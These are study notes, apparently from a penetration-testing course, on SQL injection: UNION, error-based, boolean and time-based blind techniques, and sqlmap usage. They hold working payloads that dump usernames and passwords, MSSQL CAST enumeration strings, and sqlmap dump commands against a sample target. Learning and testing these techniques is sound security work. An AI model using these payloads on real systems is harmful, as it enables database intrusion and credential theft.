









[TOC]


### Introduction to SQL Injections


* This attack *exploit* the injection of SQL Commands into the SQL Queries of a Web Application

  * By this attack, hacker can **access and manipulate a Web Application backend database**
  * 

* Complex Web Application generally use a *database* for **storing data** , **user credentials** or **statistics**

* CMSs and as well as personal web pages, can connect to databases such as **MySQL, SQL Server, Oracle, PostgreSQL, SQLITE** etc

* To interact with databases, *entities* such as system operators, programmers, applications and web  applications use the **Structured Query Language [SQL]**

* SQL is a powerful interpreted language used to extract and  manipulate data from a database.

* Web applications embed SQL commands, also known as queries, in their server-side code.

* The code takes care of establishing and keeping the connection to  the database by using **connectorts**

  * **Connectors** are middle-ware between the web application and the database
  * 

* 

* ### SQL Statements =>

  * > A SQL Statement looks like =>
    >
    > 
    >
    > > > **SELECT** name, description **FROM** products **WHERE** id=9;
    >
    > 
    >
    > This code queries the database, asking for the *name* and the *description* of a record in the *products* table - the selected record will have *id* value equal 9

  * > In order to better understand SQLi, we need to to know the basic syntax of **SELECT** statement:
    >
    > 
    >
    > > > *SELECT* <columns list> *FROM* <table> *WHERE* <condition>;
    >
    > > It's mean -> from table with this condition give me this columns as selection
    >
    > 
    >
    > > Also Possible to SELECT constant value =>
    > >
    > > > *SELECT* 22, 'string', 0x12, 'another string';

  * > Beside, knowing about *SELECT* statement , we also need to know **UNION**  command, which performs a union between 2 Results,Operates:
    >
    >
    > 

    

  * > **DISTINCT** =>  If a table or query contains duplicate rows , then we can use the *DISTINCT* operator to filter out duplicate entities:
    >
    > 
    >
    > > > **SELECT** *DISTINCT* <field list> <remainder of the statement>;

  * > A UNION statement implies *DISTINCT* by default. We can prevent that by using  *ALL* operator
    >
    > 
    >
    > > >  <SELECT statement> **UNION ALL** <other SELECT statement>;

  * > **COMMENTS** => 2 strings we can use to comment a line in SQL:
    >
    > 
    >
    > 1.  **#** [the hash symbol]
    > 2. **--** [2 dashes followed by a space]
    >
    > 
    >
    > > > SELECT field FROM table; # this is a comment
    > > > SELECT field FROM table; -- this is another comment

  * > EXAMPLES =>

    * Suppose there is  2 Tables => Products, Accounts

    * 

    * > The following two **queries** provide the same result:
      >
      > 
      >
      > > > SELECT Name, Description FROM Products WHERE ID='1';
      > > >
      > > > 
      > > >
      > > > SELECT Name, Description FROM Products WHERE Name='Shoes';
      >
      >
      > The result of the queries is a *table* containing just one row:
      >
      > 

    * > **UNION** example between 2 *SELECT* statements :
      >
      > 
      >
      > > > *SELECT* Name, Description *FROM* Products *WHERE* ID='3' *UNION* *SELECT* Username, Password *FROM* Accounts;
      >
      > 
      >
      > The result of above query is a table containing a row with the *Hat* item and all the *username and password* from the **Accounts** table
      >
      >
      > 

    * > **UNION** => can also perform a **UNION** operation with some *Chosen Data*:
      >
      > 
      >
      > > > *SELECT* Name, Description *FROM* Products *WHERE* ID='3' *UNION* *SELECT* 'Example', 'Data';
      >
      > 
      >
      > Result -> a table containing a row with the **Hat** item and the provided **custom row**:
      >
      > 

  * ### SQL Queries Inside Web Application

    * Previously examples of SQL Queries are the examples to show how to use SQL when querying a database directly from its console
    * To perform same tasks from within a web application, the application **must**:
      * **Connect** to the database
      * **Submit** the query to the database
      * **Retrieve** the results
    * Then, the application logic can use the results.
    * 
    * 
    * 

  * ### Vulnerable Dynamic Queries

    * most of the times queries are not static

    * they are indeed **dynamically built** by using user's inputs

    * **Vulnerable Dynamic Query Example ->**

      * 

      * This example shows some code which uses **user-supplied input to build a query** (*the **id** parameter of the **GET**  request*).

      * The code then submit the query to the database.

      * This behavior is very dangerous - because a malicious user can  exploit the query construction to take control of the database interaction

      * > The dynamic query:
        >
        > 
        >
        > > SELECT Name, Description FROM Products WHERE ID='**$id**';
        >
        >
        > Expects *$id* values such as:
        >
        >
        > 
        >
        > 
        >
        > Or, any other **string.**

      * > Attacker can craft  an **$id** value which can actually **change** the query like -> 
        >
        > > **' OR 'a'='a**
        >
        > Then the query becomes ->
        >
        > 
        >
        > > SELECT Name, Description FROM Products WHERE ID=**' ' OR  ' a '=' a '**;

      * > This tells the database to select the items by checking **two conditions:**
        >
        >
        > • The id must be empty ( id=' ' )
        > • **OR** an always true condition ( ' a ' = ' a ’ )
        >
        > 
        >
        > While the first condition is not met, the SQL engine will consider the second condition of the **OR**.
        > This second condition is crafted as an always  **true** condition
        >
        > 
        >
        > In other words, this tells the database to select all the items in the **Products** table

      * > An attacker could also exploit the UNION command by supplying:
        >
        > 
        >
        > > '  UNION SELECT Username, Password FROM Accounts WHERE  ' a ' = ' a
        >
        >
        > Thus, changing the original query to:
        >
        > 
        >
        > > *SELECT* Name, Description *FROM* Products *WHERE* ID= **' ' UNION SELECT  Username, Password FROM Accounts WHERE 'a'='a';**

      * > This asks the database to select the items with an **empty** id, thus selecting an empty set, and then to perform a union with all the entries in the Accounts table.
        > 
        >
        >
        > By using some deep knowledge about the database management system in use, an attacker can get access to the **entire database** just by using a web application.

* ### Dangerous of  SQL Injection

    * Before going deeper into the **“find and exploit process”** of SQL injection vulnerabilities, we should understand where these vulnerabilities can lead when they are successfully exploited

    * First - understand according to the DBMS(MySQL, SQL Server) which the web application is using, the attacker is capable of performing a number of actions that go much further than the mere manipulation of the database.

    * An attacker could read the file system, run OS commands, install shells, access the remote network and basically own the whole infrastructure.

    * > Keep in mind that accessing a database that stores confidential data
      >
      >  (user credentials, SSNs, credit cards and whatever sensitive information an enterprise, a company or individual may store in a database) 
      >
      > is the single most dangerous form of attack on a web application.

    * XSS VS SQLI

      * An XSS attack involves some steps, intelligence, and planning for its successful exploitation
      * A SQL injection vulnerability, once found, is ready to be exploited.

    

* ### SQLi Attack Classification

    * There are many different types of classification, each one based on different aspects such as:

        * Scope of the attack
        * Exploitation Vector
        * Source of the attack

    * Classification

        * **In-band SQL injection attacks and exploitation**
        * **Error-based SQL injection attacks and exploitation**
        * **Blind SQL injection attacks and exploitation**

    * ### 1. *In-band SQL injection attacks and exploitation*

        * *In-band SQL injections* leverages the same channel used to inject  the SQL Code (i.e., the pages generated by the web application).
        * 
        * 

    * ### 2. *Error-Based SQL Injection*

        * During an *Error-Based SQL injection attack*, the penetration tester  tries to force the DMBS to output an error message and then uses that information to perform data exfiltration.
        * 
        * 

    * ### 3. *Blind SQL Injections*

        * A web application vulnerable to *blind SQL injection* does not reflect the results of the injection on the output. 
        * In this case, the penetration tester must find an *inference* method to exploit the vulnerability.
        * 
        * 
        * 


---


### Finding SQL Injections


* To exploit a SQL injection,

  * First find where the **Injection Point** is
  * Second, craft a **payload** to take control over our target dynamic query

* 

* ### NOTE =>

  * ```
    not all the inputs of a web application are used to build SQL queries.
    
    we must categorize the different input parameters and save the ones used for database data retrieval and manipulation
    ```

* Input Parameters are carried through **GET** and **POST** *requests*, **HEADERS & COOKIES**

  * So, need to check all the channels where data is retrieved from the client

* ### EXAMPLE - Simple SQL Injection Scenario

  * suppose a vulnerable application have *ecommerce.php* which takes an input parameter named **id**  that reads the product features from the database and prints them out on the page

  * GET Request ->  

    ```
    http://localhost/ecommerce.php?id=1
    ```

  * Sending  the id=1  GET parameter makes the application behave correctly

  * The **id** parameter expecting **integer**

  * Now, instead of giving *integer*,  give **comma ( , )**  there and then application will throw an error

    * 

  * 

  * The web application we have just seen prints internal errors on its output pages

    * This behavior helps developers **and penetration testers** to understand what is going on under the hood of a web application.
    * Every **DBMS** responds to incorrect SQL Queries with different **error messages**
    * Even within the same DBMS, error messages change according to the specific function the web application uses to interact with it.
    * Like in previous example -> there is an error we saw -> **mysql_fetch_assoc()** function triggering an error due to our invalid input
    * 
    * If, we get errors like above during testing of web application, then that application is vulnerable to SQL Injection
    * Remember - this is not always the case; sometimes we have **educated guesses** in order to understand if a web app is *vulnerable or not*

  * ### Boolean Based Detection

    * Currently, most production websites do not display such errors
    * This happen both
      * because of the usability of the application; it is useless to display errors to end users who cannot understand or fix them
      * and  to achieve **security through obsecurity**
    * **Security through obsecurity** is the use of secrecy of design implementation or configuration in order to provide security
    * If a web application does not display errors on its output, it is still possible to test for SQL Injection by using **Boolean based Detection technique**
    * The idea behind this is
      * craft payloads which transform the web application queries into *True/False* **conditions**.
      * Then we can infer the results of the queries by looking at how the application behavior changes with different *True/False* **conditions**
    * 
    * 
    * 
    * 
    * 
    * 
    * 
    * After detecting a potential injection point, it is time to test if it is actually exploitable


---


### Exploiting In-Band SQL Injections


* **In-band SQL injection** techniques make the retrieval of data from the database very powerful thanks to the use of the **UNION** SQL command.

  * Also known as **UNION-based SQL Injections**

* In this attack -> penetration tester extract the database content, in the form of the database name, tables schemas and actual data

* Example

  * ```
    SELECT <field list> FROM <table> UNION SELECT <field list> FROM <another table>;
    ```

    

* **1st Scenario**

  * Suppose the database contains 2 tables - *CreditCards* and *Users*
  * 
  * The *user_id* column is the foreign key of the *Users* table
  * 
  * 
  * 
  * 
  
 * 

  * 

  * 

  * 

  * 

  * Finding the number of fields in a query is a cyclical task. If we do not provide the correct number of fields in the injected query, it will not work

      * This will throw an error on the web application output or simply mess up the contents of the output page rendering

* 

* 

* 

* 

* 

  * 
  * 
  * 
  * 

* 

* 

* Finding the data types used in the queries is, once again, a cyclical  process. We have to:

  * Substitute one of the **null** fields in our payload with a constant
  * If the constant type used is correct, the query will work
  * If the type is wrong, the web application will output an error or misbehave

* 

* 

* 

* ### Dumping the Database Content

  * After finding out the number of columns and their type, it is possible to extract information about *the database, the server and the database data.*


---

  

### Exploiting Error Based SQL Injections


* **Error-based SQL injections**  are  another way to retrieve data from the database.

  * this attack do not ask for data directly
  * this attack use some advanced DBMS functions to trigger an error
  * The error message contains the information the attacker/penetration tester is aiming for

* Most of the times the error message is reflected in the web application output, but it  could also be embedded in an email message or appended to a log file.

  * It depend on how the web application is configured.

* This attack is fastest way to extract data from a database.

* It is available on DBMSs such as

  * Oracle
  * PostgreSQL
  * MS SQL Server

* Some DBMSs are very generous in terms of information given  within error message

* We will retrieve **database names, scehmas and data**  from the *error themselves*

* **MS SQL Server** reveals the name of database objects within error messages

* Let's Assume a vulnerable application having [ASP + MSSQL]

  * In MSSQL, *sa* is the **super admin** and has access to the *master database*.

  * The *master database*  contains schemas of user-defined databases.

  * 

  * 

  * 

  * 

  * 

  * 

  * 

  * 

  * 

    * https://msdn.microsoft.com/en-us/library/ms187837.aspx

  * ### Dumping the Database Data

    * We need to extract information from a database by using error-based SQL Injections like :

      * Current Database Username
      * Current Database Name
      * Installed Database
      * The tables into a given database
      * The columns of a given table
      * Database data

    * ### Finding the Current Database Name

      * First step is to understand the level of privilege we  have by finding the current database user:

      * ```
        9999 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096))) --
        ```

      * **user_name()** = an MS SQL function which returns the current database user.

      * 

    * ### Finding Readable Databases

      * To do that, we will iterate through the *MASTER* database to find all the databases that we can read

        * ```
          9999 or 1 in (SELECT TOP 1 CAST(db_name(0) as varchar(4096))) --
          ```

      * The **DB_NAME()** function accesses the *master..sysdatabases* table which stores all the databases installed on the server

      * We can only see the databases that *user* has rights to

      * To enumerate all the databases that user can access, we just have to *increment* the **db_name()** argument

        * ```
          9999 or 1 in (SELECT TOP 1 CAST(db_name(1) as varchar(4096))) --
          
          
          Notice 1 in db_name(1)
          
          To 1, 2, 3 and continue until we cannot enumerate more databases
          ```

    * ### Enumerating Database Tables

      * After getting list of installed databases and the current database in use, now next task is to **enumerate all the tables in the current database**

      * the same technique can easily be modified to apply to the other databases

      * Payload =>

        * ```
          9999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM
          <database name>..sysobjects WHERE xtype='U' and name NOT IN
          (<known table list>)); --
          ```

        * > Where :
          >
          > 
          >
          > * *xtype='U'*  => 
          >   * Means that we are only interested in user-defined tables
          > * *name NOT IN ('<known table list>')* => 
          >   * name is a column of the  *"sysobjects"*  special table.
          >   * Every time find a new table we will append it to the *NOT IN*  list
          >   * This is needed because the error displays only the first table name

      * Suppose, If a database contains 3 Tables

        * HR
        * Customers
        * Products

      * Then *<known table list>* will:

        * Be empty in the first payload. *... name NOT IN ('')* will work!
        * Contain '**HR**'  at the second step
        * Contain **'HR', 'Customer' , 'Products'** at the last step

    * ### Enumerating Columns

      * After retrieving tables of a database, now time to recover the columns of *each table*

      * This is the **schema** of the database

      * Payload to retrieve the columns =>

        * ```
          9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as
          varchar(4096)) FROM <db name>..syscolumns,<db name>..sysobjects
          WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <db
          name>..sysobjects.name=<table name> AND <db name>..syscolumns.name
          NOT IN (<known column list>)); --
          ```

        * > Where :
          >
          > 
          >
          > * *<db name>* =  is the name of the database we are working on
          > * *<table name>* = is the name of the table which we are working on
          > * *<known column list>* = is a list of the columns we already retrieved

    * ### Dumping Data

      * After enumerating databases and their schemas, we  can now proceed to the data dumping phase

      * To retrieve the actual content of the database, we need to use the understanding of the database structure we built until now.

      * We will again need to trigger some errors by using the *cast technique*

      * Payload

        * ```
          9999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar(4096))
          FROM <db name>..<table name> WHERE <column name> NOT IN
          (<retrieved data list>)); -- -
          ```

      * ### Examples

        * We got table - *users* in the database *cms*

        * Table Contains Following Columns :

          * id (int)
          * username (varchar)
          * password (varchar)

        * To retrieve the *id* values, we can use this payload

          * 
          * *Concatenation with '@'* => **This ensures that the selected id has data type varchar** thus  making the cast error possible
          * 
          * 

        * After extracting all the ids,  we can use that information to extract all the usernames :

          * ```
            9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM
            cms..users WHERE id=1); -- -
            ```

          * No string concatenation is needed here because *username data type is varchar*

          * Using the ids lets us correlate usernames and passwords by retrieving the password of a specific username

        * We can retrieve a password by using same payload like above

          * ```
            9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM
            cms..users WHERE id=1); -- -
            ```

          * Or even *concatenate the username and the password!*

          * ```
            9999 OR 1 IN (SELECT username%2bchar(64)%2bpassword FROM
            cms..users WHERE id=1); -- -
            ```

          * > Notice => *username%2bchar(64)%2bpassword*  from above payload

* ### MySQL Error-Based SQLi Exploitation

  * To exploit error-based SQL Injection on MySQL, we will use *group by* statement
    * This statement groups the result set by one or more columns
  * 
  * 
  * Payload for MySQL error-based injections
    * 
  * 


* ### PostgreSQL Error-based SQL Injection

  * For this, need to use same **CAST Technique as same as like MSSQL**

  * To extract DB Version

    * ```
      # select cast(version() as numeric);
      
      Result =>
      
      ERROR: invalid input syntax for type numeric: "PostgreSQL 9.1.15
      on x86_64-unknown-linux-gnu, compiled by gcc (Debian 4.7.2-5)
      4.7.2, 64-bit"
      ```

  * 


* ### Cheat Sheets by PentestMonkey to craft Payloads

  * http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
  * http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  * http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet


----


### Exploiting Blind SQL Injections


* If the Web Application not exploitable via *in-band* or *error-based* SQL Injection, then next we can try for **BLIND SQL Injection Techniques**

* > **NOTE : **
  >
  > This **does not mean**  that  Blind SQL Injections are exploitable only if the web **application does not print errors on its output**

* > It simply means that when crafting a **Boolean based SQLi** payload, we want to transform a query in a *True/False*  condition which reflects its state to the web application output

* Either it prints errors on its outputs or not based on different case scenarois

* ### Exploitation Scenario

  * 
  * 
  * 
  * 
  * 
  * Once we find a way to tell when a condition is *True or False* , then we can ask the database some simple *True/False* Questions like :
    * Is the first letter of the username 'a'?
    * Does this database contain three tables?
    * And so on ...

* ### Example - Detecting the Current User

  * Let’s see a way to find the current database user by using Boolean based Blind SQL Injection
    *  Two MySQL Functions => user() and substring()
  * 
  * 
  * 
  * 
  * 
  * 
  * 

* To do all this process by hand is time consuming, so better to use **SQLMAP** tool

* ### Another Scenario where a web application does not print any error on its output

  * 
  * 
  * So, the String "Nokia" appears for **TRUE Condition**
  * So, we need to understand what the output looks like when we have a *Correct Guess*
  * We will have to find text in the web page code that will *Only* appear for the correct guess
    * this will let us tell a match from a mismatch
  * 
  * 
  * 
  * 

* ### Optimized Blind SQL Injections

  * 

  * Best way is to *reduce the number of iterations we have to  do per character*

  * It's mean we need to able to understand if the character we are trying to guess is :

    * [A-Z]
    * [a-z]
    * [0-9]

  * The first test is to see if the conversion to upper case of the current  character will yield a FALSE or TRUE condition:

    * 
    * 
    * 
    * 

    

  * Then, we need to test if the conversion to lower case of the current character will yield **FALSE or TRUE** condition

    * 

  * 


* ### Times Based SQL Injecitons

  * Here, **TIME** is used to infer a *TRUE condition from a FALSE condition*

  * SYNTAX

    * ```
      %SQL condition% waitfor delay '0:0:5’
      ```

    * If the SQL condition is TRUE, the DBMS will delay for 6 seconds.

  * 

    * ```
      Benchmark will perform MD5(1) function 1000000 times if the IF
      clause yields TRUE (thus consuming time).
      ```

    * Need to careful when using BENCHMARK() function with the first argument. It can seriously affect the server load


---


### SQLMAP


* A tool that automates the process of detecting and exploiting SQL Injections flaws and taking over of database servers

* Tool can  crash the remote service so, use it with caution

* Basic Syntax

  * ```
    sqlmap –u <URL> -p <injection parameter> [options]
    ```

* SQLMAP  needs to know the vulnerable URL and the parameter to test for a SQLi

  * It could even go fully automatically without providing any specific parameter to test

* ```
  sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
  
  
  Here, SQLMAP testing the id parameter of the GET Request for view.php
  Also  SQLMAP using the Technique => UNION
  ```

* For POST Parameter

  * ```
    sqlmap –u <URL> --data=<POST string> -p parameter [options]
    ```

  * > We have a choice to either write the POST string by ourself OR  copy it from a request intercepted with Burp Proxy

  * And another way is to "Copy to file" from Burp Suite and save to a file 

    * NOTE :-> This is for both GET & POST

  * Then command will be 

    * ```
      sqlmap –r <request file> -p parameter [options]
      ```

* ### Extracting Database Banner

  * Command Option in SQLMAP =>  **--banner**

  * ```
    sqlmap -u <target> --banner <other options>
    ```

* ### Information Gathering using SQLMAP

  * Get a List of **USERS** of the *database*

    * ```
      sqlmap -u <target> --users <other options>
      
      using --users 
      ```

  * Now, check if the web application database user is  a Database Administrator or not

    * ```
      sqlmap -u <target> --is-dba <other options>
      
      Using  --is-dba
      ```

* ### Extracting the Database

  * ```
    sqlmap -u <target> --dbs <other options>
    
    
    Using --dbs
    ```

* ### Extracting the Schema

  * ```
    sqlmap -u <target> -D <database> --tables <other options>
    
    
    Choose a database using -D switch and then list its tables
    ```

  * ```
    sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
    
    
    can choose one or more tables and list their columns using above command
    ```

  * ```
    sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>
    
    
    Using above command we can DUMP just the columns we need
    ```

* 

* ### Forcing the DBMS

  * Different DBMSs offer different features; this also implies that we have to exploit different commands and default configuration to perform a SQLi exploitation

  * SQLMAP automatically detects the DBMS behind a web application automatically. 

  * If it fails then we can specify the DBMS by hand

  * ```
    sqlmap --dbms=<DBMS> ...
    ```

  * 

* ### Fine Tuning the Payloads

  * Web applications sometimes change their output in a way that  SQLMap cannot figure out
  * This makes Blind SQLi Exploitation  impossible.
  * So, for this we can use **--string** and **--not-string** command line switches
    * Append to **--string**  a string which is always present *TRUE* output pages 
      * OR
    * Append to **--not-string**  a string which is always present *FALSE*  output pages
  * 
  * Sometimes a SQLI Payload is inserted in a structured POST parameter like a JSON, or we need to insert some characters to make the query  syntactically correct
    * We can do that by using **--prefix** and **--suffix** command line switches
    * 

* ### Aggressiveness and Load

  * 
  * 
  * 
  * 
  * 
  * 
  * 


---


### Mitigation Strategies


